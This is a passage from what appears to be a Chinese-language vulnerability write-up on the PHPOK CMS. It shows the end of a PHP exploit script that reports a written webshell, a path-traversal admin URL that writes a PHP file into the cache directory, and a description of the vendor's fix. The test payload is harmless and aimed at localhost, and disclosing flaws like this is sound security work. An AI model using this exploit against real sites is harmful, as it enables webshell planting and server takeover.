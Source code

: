```php
        print "Success,webshell: " . "$url" . "_cache/$filename.php\n";
    } else {
        print "Error";
    }

}
exploit("http://127.0.0.1/", "vul", '<?php echo "test_vuln";?>');
```

运行此exp会得到`$quickcode`的值，并将其带入到url里执行

```php
http://127.0.0.1/admin.php?c=login&f=updatehttp://127.0.0.1/admin.php?c=login&f=update&fid=../api&fcode=/../_cache/vul&quickcode=quickcode
```

![image-20230526144502996](https://shs3.b.qianxin.com/butian_public/f7585212c5469ce33d181b98305c09bb89295d6a6faf5.jpg)

成功写入到`/_cache/vul.php`

![image-20230526143257924](https://shs3.b.qianxin.com/butian_public/f782745af5657e40b546ee1b074197f6db5c57d484885.jpg)

在最新版本中已修复该漏洞，修复方式就是将`vim`改成`vi`，在`vi`中会在最前面添加`if(!defined("PHPOK_SET")){exit("<h1>Access Denied</h1>");}`即使后面有php代码也不会执行。

![image-20230530185213979](https://shs3.b.qianxin.com/butian_public/f526652524aad9f9aee40a6bff014d8ae37671b37e443.jpg)